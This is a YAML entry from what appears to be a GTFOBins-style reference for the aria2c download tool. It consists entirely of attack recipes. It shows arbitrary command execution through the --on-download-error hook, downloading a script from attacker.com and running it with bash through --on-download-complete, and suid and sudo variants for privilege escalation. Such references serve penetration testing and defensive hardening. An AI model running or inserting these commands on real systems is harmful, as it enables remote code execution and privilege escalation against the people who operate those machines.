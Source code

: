 ```yaml
---
description: Note that the subprocess is immediately sent to the background.
functions:
  command:
    - code: |
        COMMAND='id'
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        aria2c --on-download-error=$TF http://x
    - description: The remote file `aaaaaaaaaaaaaaaa` (must be a string of 16 hex digit) contains the shell script. Note that said file needs to be written on disk in order to be executed. `--allow-overwrite` is needed if this is executed multiple times with the same GID.
      code: aria2c --allow-overwrite --gid=aaaaaaaaaaaaaaaa --on-download-complete=bash http://attacker.com/aaaaaaaaaaaaaaaa
  suid:
    - code: |
        COMMAND='id'
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        ./aria2c --on-download-error=$TF http://x
  sudo:
    - code: |
        COMMAND='id'
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        sudo aria2c --on-download-error=$TF http://x
---
```

